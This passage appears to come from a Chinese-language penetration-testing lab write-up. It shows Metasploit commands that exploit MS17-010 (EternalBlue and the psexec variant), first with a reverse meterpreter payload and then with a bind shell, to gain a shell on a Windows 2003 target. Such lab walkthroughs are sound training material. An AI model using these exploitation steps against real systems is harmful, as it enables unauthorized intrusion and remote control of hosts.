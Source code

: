 

接下来就是对目标主机的ms17-010进行漏洞利用拿到目标shell

我首先使用的是exploit/windows/smb/ms17_010_eternablue模块的windows/x64/meterpreter/reverse_tcp的payload，但是管道并没有创建成功，由于目标内网不能连接攻击主机

```
use exploit/windows/smb/ms17_010_enternablue

set payload windows/x64/meterpreter/reverse_tcp
```

![image-20210809104223573](红日靶场内网渗透.assets/image-20210809104223573.png)



接着使用了windows/smb/ms17_010_pspexec模块的windows/shell/bind_tcp的payload

```
use exploit/windows/smb/ms17_010_psexec

set payload windows/shell/bind_tcp
```



这个payload可以让目标主机开通个tcp监视器，然后让攻击主机去连接目标主机端口就可以执行shell

攻击成功，进入win2003的shell
